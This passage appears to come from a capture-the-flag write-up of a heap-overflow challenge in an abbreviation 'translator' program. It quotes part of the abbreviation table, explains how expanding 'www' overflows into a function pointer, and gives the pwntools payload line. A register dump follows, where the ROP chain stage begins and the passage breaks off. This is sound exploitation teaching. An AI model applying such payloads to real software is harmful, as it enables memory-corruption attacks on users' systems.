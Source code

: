 ```c
   {.a="noob", .b="newbie"},
   {.a="noyb", .b="none of your business"},
   {.a="nrn", .b="no reply necessary"},
   {.a="otoh", .b="on the other hand"},
   {.a="rtfm", .b="read the fine manual"},
   {.a="scnr", .b="sorry, could not resist"},
   {.a="sflr", .b="sorry for late reply"},
   {.a="tba", .b="to be announced"},
   {.a="tbc", .b="to be continued"},
   {.a="tia", .b="thanks in advance"},
   {.a="tq", .b="thank you"},
   {.a="tyvm", .b="thank you very much"},
   {.a="tyt", .b="take your time"},
   {.a="ttyl", .b="talk to you later"},
   {.a="wfm", .b="works for me"},
   {.a="wtf", .b="what the fuck"},
   {.a="wrt", .b="with regard to"},
   {.a="ymmd", .b="you made my day"},
   {.a="icymi", .b="in case you missed it"},
   // pwners abbreviations
   {.a="rop ", .b="return oriented programming "},
   {.a="jop ", .b="jump oriented programming "},
   {.a="cop ", .b="call oriented programming "},
   {.a="aar", .b="arbitrary address read"},
   {.a="aaw", .b="arbitrary address write"},
   {.a="www", .b="write what where"},
   {.a="oob", .b="out of bounds"},
   {.a="ret2", .b="return to "},
  };
```

The main stuff is in `english_expand` function which is looking for an abreviation in the user input. If it finds the abbreviation, all the data after the occurence will be written further according to the length of the full expression.
The attack idea is fairly simple, the `text` variable is allocated right before the `Translator` structure, and so in the heap they will be contiguous. Given that, we know that if we send 0x1000 bytes in the chunk contained by `text` and that we put an abbreviation of the right length we can overwrite the `translate` function pointer.

I will not describe in details how we can find the right size for the abbreviation or the length off the necessary padding.
An interesting abbreviation is the `www`, which stands for "write what where" (what a nice abbreviation for a pwner lmao), indeed the expanded expression has a length of 16 bytes.
So we send `b"wwwwww" + b"A"*(0x1000-16) + pwn.p64(gadget)`, we will overflow the 32 first bytes next the `text` chunk, and in this rewrite the `translator` function pointer.

## ROPchain

Once that's done, when the function pointer will be triggered at the next iteration, we will be able to jmp at an arbitrary location.
Lets take a look at the values of the registers when we trigger the function pointer:
```
 RAX  0x1ee8bc0 —▸ 0x4018da (init_cacheinfo+234) ◂— pop    rdi
 RBX  0x400530 (_IO_getdelim.cold+29) ◂— 0x0
 RCX  0x459e62 (read+18) ◂— cmp    rax, -0x1000 /* 'H=' */
*RDX  0x405121 (_nl_load_domain+737) ◂— xchg   eax, esp
 RDI  0x1ee8bc0 —▸ 0x4018da (init_cacheinfo+234) ◂— pop    rdi
 RSI  0x4c9943 (_IO_2_1_stdin_+131) ◂— 0x4cc020000000000a /* '\n' */
 R8   0x1ee8bc0 —▸ 0x4018da (init_cacheinfo+234) ◂— pop    rdi
 R9   0x0
 R10  0x49e522 ◂— 'Enter text: '
 R11  0x246
 R12  0x4030e0 (__libc_csu_fini) ◂— endbr64 
 R13  0x0
```